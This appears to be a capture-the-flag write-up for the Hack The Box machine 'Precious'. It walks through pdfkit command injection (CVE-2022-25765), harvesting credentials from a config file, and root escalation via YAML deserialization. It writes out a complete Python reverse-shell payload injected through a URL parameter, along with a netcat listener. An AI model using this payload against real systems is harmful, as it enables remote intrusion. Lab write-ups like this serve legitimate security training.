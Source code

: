 # Precious Machine Writeup - Easy

## Overview
Machine OS: Linux

Difficulty: Easy

![image](https://user-images.githubusercontent.com/99826925/212559935-cadec647-87aa-4757-9643-42e7d8ad8c7c.png)

## Enumeration

The first step I made, as usual, scan for open ports and look for anything suspicious.

For this reason, I used the following command:

└─$ nmap -sC -sV 10.10.11.189 

![1](https://user-images.githubusercontent.com/99826925/212559647-3abcf2f0-74bb-4740-8e52-83c328c07da5.PNG)

We can only find the ssh and web application running on both 22 and 80 ports.
Even after trying to fuzz for subdomains, we had nothing interesting.
So let's jump to our browser and have a look at the website.

## Look inside the webpage

![image](https://user-images.githubusercontent.com/99826925/212560106-7d104529-4f17-4761-b7e6-ffa8d3f1ec85.png)

It looks like this web page converts a website that a user provides to a PDF document.
I tried to see how it works. For this reason, I started a http server with python.

![image](https://user-images.githubusercontent.com/99826925/212560283-0bd57637-87ec-40fe-bc34-a68d259972e2.png)

![image](https://user-images.githubusercontent.com/99826925/212560366-f5162a10-90a1-4661-9c63-7296d525220f.png)

Our server is ready to be converted to PDF. I pasted the URL and the website generated a PDF File.

## Getting user access

Analyzing the PDF, I used Exiftool on the generated PDF to find that it's using "pdfkit v0.8.6".

I went to google to see if we can use a CVE for this version, to find that this version is vulnerable to Command Injection 'CVE-2022-25765'
An application could be vulnerable if it tries to render a URL that contains query string parameters with user input.

For more info visit : https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795

I edited the URL Provided to add a parameter and see if I can execute a system command to make it look like :
http://10.10.**.**/?name=%20'whoami'
The resulted PDF:

![image](https://user-images.githubusercontent.com/99826925/212561063-d0dd0cb4-d098-475a-ab2b-1cc97690c4d6.png)

So it's working ! I know I can inject system commands, so I generated a reverse shell using https://www.revshells.com/ and pasted it in my URL's parameter:

```http://10.10.**.**/?name='python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.**.**",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")''```
and on my side, I had a NetCat listener :

└─$ nc -lvnp 4444

![image](https://user-images.githubusercontent.com/99826925/212561720-26b03023-7614-4474-9b9c-6cc220c4156f.png)

![image](https://user-images.githubusercontent.com/99826925/212561756-c61e1fb2-f6f5-476e-9556-9febb9a5c829.png)

Nice ! we got our hands on the shell.

Listing the home directory, I found there is a user called 'henry'. And after spending some time looking in the files and folders, I was able to find henry's credentials in .bundle/config file.

![image](https://user-images.githubusercontent.com/99826925/212561910-77201647-e539-4cde-9b04-b00ab7c5a0c9.png)

Using those credentials, I was able to SSH through henry's user and get the user flag.

![image](https://user-images.githubusercontent.com/99826925/212562543-bc07389d-79b5-4ae6-aa04-49e75a9cef24.png)

## Privilege Escalation

The first step I usually do, is to run ```sudo -l``` to see if we have any files we can run as root.

![image](https://user-images.githubusercontent.com/99826925/212562593-a0d02d64-1bf3-464e-9c00-c500adffb2ca.png)

looking inside the update_dependencies.rb, we notice that it is calling ```yaml.load()``` function, which seems to be vulnerable to Blind Remote Code Execution through YAML Deserialization

For more info : https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/

![image](https://user-images.githubusercontent.com/99826925/212562617-077c08ad-c505-454c-950f-f675b6eeb011.png)

I used the script provided in the link above to make the dependencies.yml file and made a system command in the git_set param and inserted ```whoami```:

![image](https://user-images.githubusercontent.com/99826925/212562671-45a76150-12ab-4b7d-bee8-9e2031c5ed09.png)

Let's see what happens when we run the ruby file :

![image](https://user-images.githubusercontent.com/99826925/212563443-7b0cf5af-0014-425a-86db-8c8eedf212bc.png)

the server is executing what we provide in the git_set param !
Now let’s see if we can change the permissions of the /bin/bash directory so that we can elevate our privileges:

![image](https://user-images.githubusercontent.com/99826925/212563592-78f01a26-1168-4f73-ba78-1198cc2be6de.png)

Running again:

![image](https://user-images.githubusercontent.com/99826925/212563640-058a8393-1e14-4a69-8254-a18757efbaf6.png)

let's see now if we could put our hands on the root user :

![image](https://user-images.githubusercontent.com/99826925/212563672-88408adc-24be-497c-bded-b75fdbfc4ede.png)

It worked ! now let's claim our prize and have that root flag!

![image](https://user-images.githubusercontent.com/99826925/212563698-6e83d448-2e23-4f2f-a9f8-d5d0c1a52210.png)


 




